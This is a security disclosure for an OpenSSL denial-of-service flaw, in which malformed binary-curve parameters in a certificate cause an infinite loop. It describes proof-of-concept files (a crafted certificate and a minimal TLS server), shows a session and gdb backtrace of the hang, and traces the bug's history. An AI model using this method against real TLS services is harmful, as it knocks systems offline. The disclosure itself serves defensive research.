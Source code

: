 Denial of service in elliptic curve parsing
===========================================

Overview
--------
When parsing an ASN.1 ECParameters specifying a curve over a
malformed binary polynomial field, OpenSSL enters an infinite
loop.  This can be used to perform denial of service against
any system which parses public keys, certificate requests or
certificates.  This includes TLS clients and TLS servers with
client authentication enabled.

PoC
---

- original-cert.der: a basic X509 certificate with a public
  key on the ANSI X9.62 c2pnb208w1 curve.  The choice of curve
  is not important, except it must be a binary curve, and must
  be explicitly specified.
- broken-cert.der: the same file, with edits to trigger the bug.
  This is not a unique set of edits; a fuzzer will find others.
- dumb-server.py: this is a trivial TLS server.  Its sole purpose
  is to accept a ClientHello, and reply with a ServerHello and
  Certificate containing the malformed certificate.

Session:

$ python3 dumb-server.py broken-cert.der &
listening on localhost 9999
$ gdb -ex run --args openssl s_client -connect localhost:9999
<snip>
Starting program: /usr/bin/openssl s_client -connect localhost:9999
CONNECTED(00000003)
depth=0 C = AU, ST = Some-State, O = Internet Widgits Pty Ltd
verify error:num=18:self signed certificate
verify return:1
<hang>
^C
Program received signal SIGINT, Interrupt.
0x00007ffff7849198 in BN_GF2m_mod_inv () from /lib/x86_64-linux-gnu/libcrypto.so.1.0.0
(gdb) bt
#0  0x00007ffff7849198 in BN_GF2m_mod_inv () from /lib/x86_64-linux-gnu/libcrypto.so.1.0.0
#1  0x00007ffff78494f6 in BN_GF2m_mod_div () from /lib/x86_64-linux-gnu/libcrypto.so.1.0.0
#2  0x00007ffff7868488 in ?? () from /lib/x86_64-linux-gnu/libcrypto.so.1.0.0
#3  0x00007ffff785253c in ?? () from /lib/x86_64-linux-gnu/libcrypto.so.1.0.0
#4  0x00007ffff785371e in d2i_ECPKParameters () from /lib/x86_64-linux-gnu/libcrypto.so.1.0.0
#5  0x00007ffff7853eaa in d2i_ECParameters () from /lib/x86_64-linux-gnu/libcrypto.so.1.0.0
#6  0x00007ffff7857338 in ?? () from /lib/x86_64-linux-gnu/libcrypto.so.1.0.0
#7  0x00007ffff785767c in ?? () from /lib/x86_64-linux-gnu/libcrypto.so.1.0.0
#8  0x00007ffff78a2ac8 in X509_PUBKEY_get () from /lib/x86_64-linux-gnu/libcrypto.so.1.0.0
#9  0x00007ffff78bea02 in X509_get_pubkey_parameters () from /lib/x86_64-linux-gnu/libcrypto.so.1.0.0
#10 0x00007ffff78bf292 in X509_verify_cert () from /lib/x86_64-linux-gnu/libcrypto.so.1.0.0
##11 0x00007ffff7bb69c8 in ?? () from /lib/x86_64-linux-gnu/libssl.so.1.0.0
#12 0x00007ffff7b94d8b in ?? () from /lib/x86_64-linux-gnu/libssl.so.1.0.0
#13 0x00007ffff7b99002 in ?? () from /lib/x86_64-linux-gnu/libssl.so.1.0.0
#14 0x00007ffff7ba1ae9 in ?? () from /lib/x86_64-linux-gnu/libssl.so.1.0.0
#15 0x00007ffff7ba2232 in ?? () from /lib/x86_64-linux-gnu/libssl.so.1.0.0
#16 0x000000000043c977 in ?? ()
#17 0x0000000000418a88 in ?? ()
#18 0x00000000004187d6 in ?? ()
#19 0x00007ffff73fdec5 in __libc_start_main (main=0x4182e0, argc=4, argv=0x7fffffffe108, init=<optimised out>, 
    fini=<optimised out>, rtld_fini=<optimised out>, stack_end=0x7fffffffe0f8) at libc-start.c:287
#20 0x000000000041885b in ?? ()

History
-------
The original bug was introduced in 2002 with the first support
for elliptic curves over binary polynomial fields[1].  This was
reported and fixed in June 2011 (OpenSSL bug 2540)[2].

Shortly before, in May 2011, the code which would later contain
the fix was commented out and replaced with an optimized version[3].

This means that the application of the patch in [2] went into
commented out code, and had no effect.

[1]: 1dc920c8de5b7109727a21163843feecdf06a8cf
[2]: 8038e7e44c6060398f0793e3e16db0ad1ee95b9d
[3]: 034688ec4d0e3d350dc0ee9602552f92e8889fc0

Author
------
Joseph Birr-Pixton <jpixton@gmail.com>
